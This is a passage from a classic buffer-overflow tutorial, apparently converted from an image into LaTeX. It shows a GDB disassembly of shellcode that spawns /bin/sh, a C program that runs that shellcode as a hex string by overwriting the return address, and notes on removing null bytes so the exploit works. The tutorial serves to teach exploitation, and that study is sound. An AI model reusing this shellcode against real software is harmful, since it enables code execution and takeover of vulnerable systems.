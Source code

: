 \documentclass[10pt]{article}
\begin{document}
{{\begin{verbatim}
There is absolutely no warranty for GDB; type 
"show warranty" for details.  

GDB 4.15 (i586-unknown-linux), Copyright 1995 
Free Software Foundation, Inc...

(gdb) disassemble main
Dump of assembler code for function main:
0x8000130 :    pushl  %ebp
0x8000131 :    movl   %esp,%ebp
0x8000133 :    jmp    0x800015f 
0x8000135 :    popl   %esi
0x8000136 :    movl   %esi,0x8(%esi)
0x8000139 :    movb   $0x0,0x7(%esi)
0x800013d :    movl   $0x0,0xc(%esi)
0x8000144 :    movl   $0xb,%eax
0x8000149 :    movl   %esi,%ebx
0x800014b :    leal   0x8(%esi),%ecx
0x800014e :    leal   0xc(%esi),%edx
0x8000151 :    int    $0x80
0x8000153 :    movl   $0x1,%eax
0x8000158 :    movl   $0x0,%ebx
0x800015d :    int    $0x80
0x800015f :    call   0x8000135 
0x8000164 :    das
0x8000165 :    boundl 0x6e(%ecx),%ebp
0x8000168 :    das
0x8000169 :    jae    0x80001d3 <__new_exitfn+55>
0x800016b :    addb   %cl,0x55c35dec(%ecx)
End of assembler dump.

(gdb) x/bx main+3
0x8000133 :     0xeb

(gdb)
0x8000134 :     0x2a

(gdb)
.
.
.
\end{verbatim}
}

\begin{lstlisting}[basicstyle=\tiny,caption=testsc.c]
char shellcode[] =
"\xeb\x2a\x5e\x89\x76\x08\xc6\x46\x07\x00\xc7\x46\x0c\x00\x00\x00"
"\x00\xb8\x0b\x00\x00\x00\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
"\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xd1\xff\xff"
"\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00\x89\xec\x5d\xc3";

void main() 
{
   int *ret;
   ret = (int *)&ret + 2;

   (*ret) = (int)shellcode;
}
\end{lstlisting}

\begin{verbatim}
[aleph1]$ gcc -o testsc testsc.c
[aleph1]$ ./testsc
$ exit
[aleph1]$
\end{verbatim}

It works! But there is an obstacle. In most cases we'll be trying to overflow a character buffer. As such any null 
bytes in our shellcode will be considered the end of the string, and the copy will be terminated. There must 
be no null bytes in the shellcode for the exploit to work. Let's try to eliminate the bytes (and at the same 
time make it smaller).

\begin{comment}
           Problem instruction:                 Substitute with:


\end{comment}}
\end{document}
